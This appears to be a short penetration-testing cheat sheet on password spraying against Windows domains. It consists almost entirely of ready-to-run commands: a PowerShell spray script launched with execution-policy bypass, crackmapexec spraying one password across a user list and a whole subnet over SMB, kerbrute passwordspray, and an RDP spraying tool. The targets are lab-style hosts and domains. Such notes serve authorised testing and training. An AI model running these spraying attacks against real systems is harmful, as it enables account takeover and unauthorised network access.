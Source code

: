# Powershell

https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```bash
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
-----------------------

# Crackmapexec
```bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
crackmapexec smb 192.168.50.0/24 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

-----------------------

# Kerbrute
```bash
kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

-----------------------

# RDP
https://github.com/xFreed0m/RDPassSpray
```bash
rdppass -U users.txt -p password -T external_targets.txt
```

-----------------------
